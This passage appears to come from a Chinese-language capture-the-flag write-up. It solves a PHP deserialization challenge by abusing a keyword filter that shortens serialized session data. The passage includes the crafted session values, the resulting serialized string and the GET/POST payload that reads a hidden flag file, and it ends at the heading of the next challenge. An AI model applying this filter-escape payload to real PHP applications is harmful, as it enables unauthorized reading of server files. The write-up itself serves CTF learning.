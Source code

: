 在user变量里，会多吃一个`"`,即`guest";s:8:"function";s:65:""`这样才是29个字符，我们需要在function参数前多加一个字符

```
$_SESSION['function'] = 'a";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
```

序列化结果

```
a:3:{s:4:"user";s:29:"guest";s:8:"function";s:66:"a";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

这样就都能被解析了

payload

```
GET传参:
f=show_image
POST传参:
_SESSION[user]=guestflagflagflagflagflagflag&_SESSION[function]=a";s:8:"function";s:2:"11";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

d0g3_f1ag.php文件的内容是

```php
<?php

$flag = 'flag in /d0g3_fllllllag';

?>
```

同样读取/d0g3_fllllllag文件

```php
<?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

$_SESSION["user"] = 'guestflagflagflagflagflagflag';
$_SESSION['function'] = 'a";s:8:"function";s:2:"11";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}';
$_SESSION['img'] = base64_encode('d0g3_f1ag.php');


$serialize_info = filter(serialize($_SESSION));
echo $serialize_info;
```

## [MRCTF2020]PYWebsite

发现源码里有flag.php
